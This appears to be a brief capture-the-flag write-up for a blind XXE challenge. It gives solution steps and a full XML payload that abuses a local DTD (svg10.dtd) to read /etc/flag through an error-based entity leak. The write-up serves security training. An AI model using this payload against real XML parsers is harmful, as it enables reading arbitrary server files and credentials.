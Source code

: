 ## Blind XXE Challenge
## Download the source code and look into how the XML File is getting parsed

## Solution
1. Send the POST request to /parse endpoint with the XML file in body that needs to be parsed
2. Send the below payload in the body to retrieve the flag
``` XML
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/svg/svg10.dtd">

    <!ENTITY % descTitleMetadata 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

   %local_dtd;
   ]>
   ```